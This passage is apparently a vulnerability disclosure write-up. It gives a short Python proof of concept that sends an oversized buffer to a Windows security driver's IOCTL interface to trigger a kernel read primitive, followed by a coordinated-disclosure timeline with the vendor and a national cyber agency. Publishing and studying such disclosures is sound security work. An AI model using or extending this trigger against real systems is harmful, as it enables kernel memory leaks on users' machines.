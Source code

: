 Proof-of-Concept
----------------
Few lines of Python should sufficient enough to trigger the vulnerability. The bug itself is a read primitive so I will leave the rest to you to figure out.
```
import ctypes, sys
from ctypes import *
 
kernel32 = windll.kernel32
hDevice = kernel32.CreateFileA("\\\\.\\10774948FAA234777974ED537F346B29F", 0xC0000000, 0, None, 0x3, 0, None)
buffer = "A"*2048
buffer_length = len(buffer)
kernel32.DeviceIoControl(hDevice, 0x9C402401, buffer, buffer_length, None, 0, byref(c_ulong()), None)
```

**Disclosure timeline**
```
2019-01-02 - Reported to Kyrol Labs (via email)
2019-01-04 - Vendor ack but they seems to be confuse what is happening.
2019-04-18 - Ask for update, they said give another 2 weeks.
2019-04-18 - NACSA steps in (Thanks Abu!). Video conferencing with the NACSA (twice!).
2019-07-03 - Second meeting with NACSA and vendor. Vendor told us they will come up with new product by October 2019.
2019-09-01 - Third meeting with NACSA and vendor (before we presenting at POC in Korea). Kyrol couldn't release the new product at that time. Considering it as 0-day!
2019-11-07 - We present our findings in POC conference in Korea.
2019-11-16 - Full disclosure. Will look forward to request CVE's for this :)
```

Happy Hacking!
